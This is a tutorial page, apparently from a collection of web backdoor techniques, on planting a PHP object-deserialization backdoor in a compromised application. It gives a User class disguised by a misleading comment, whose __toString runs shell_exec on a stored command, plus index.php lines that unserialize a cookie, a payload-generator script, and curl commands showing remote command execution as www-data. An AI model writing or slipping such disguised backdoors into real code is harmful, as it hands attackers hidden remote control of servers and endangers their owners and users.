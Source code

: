# PHP Object Deserialization

The `PHP Object Deserialization` is not exactly a backdooring technique but it's rather a real vulnerability.
So in scenarios where a `PHP Object Deserialization` is already present, it can be exploited for achieving `LFI`, `Arbitrary File Read`, `RFI` and in worse cases `RCE`.
In this example, we'll use the PHP deserialization mechanism to modify some source codes of compromised machine adding some code that looks innocent to the most unaware users, but actually it's a backdoor for achieving `RCE`.

More info about deserialization can be found at: https://www.php.net/manual/it/language.oop5.serialization.php

Let's suppose we have a class of the application called `User` which defines its own methods and instance variables.
We add an instance variable called `cmd` and we add the `__toString()` methos (or only the body of the function if it's already declared). Note that other magic methods can be used of course.
The file will contain a script like this (`manage.php`)

```php
<?php

class User {
    private $cmd;

    public function __construct() {
        if (isset($_COOKIE['PHPSESSID'])) {
            $this->cmd = "cat /tmp/sess_" . $_COOKIE['PHPSESSID'];
        }
    }

    // returns info about the current user session
    public function __toString()
    {
        return (string) ($this->cmd !== null ? print_r(shell_exec($this->cmd)) : '');
    }
}
?>
```

This code appears to be more complex than necessary for retrieving the content of the current user session. But at the end, it looks innocent. Eventually, this code can leak sensitive information already but that's another story.

Now let's assume that in our `index.php` (or whatever script which already imports our `manage.php`) we add some more lines:


```php

<?php
// ... previous code
// require_once("manage.php"); // uncomment if not already imported by the current script

$obj = isset($_COOKIE['param']) ? unserialize(base64_decode($_COOKIE['param'])) : new User();

if (isset($_GET['debug'])){
    echo $obj;
}
?>
```

> [!NOTE]
>
> You don't need to `echo` the object if it is echoed from somewhere else. The important thing is that `__toString` will be
> executed for a reason or another. You don't even need to `unserialize` it if `unserialize` of such object is already present
> in some other places of the application.

This allows us to add a cookie param containing the custom command that we want to execute.
To obtain a valid `param` cookie we can use a script like this

```php
<?php

class User {
    private $cmd;

    public function __construct($cmdArg) {
        $this->cmd = $cmdArg;
    }
}

echo base64_encode(serialize(new User($argv[1])));

?>
```


# Exploit the backdoor

```bash
❯ curl http://localhost:8080/?debug -H 'Cookie: PHPSESSID=test'
1

❯ php exploit.php 'whoami' | xargs -I {} curl http://localhost:8080/?debug -H 'Cookie: param={}'
www-data
1

❯ php exploit.php 'id' | xargs -I {} curl http://localhost:8080/?debug -H 'Cookie: param={}'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1
```
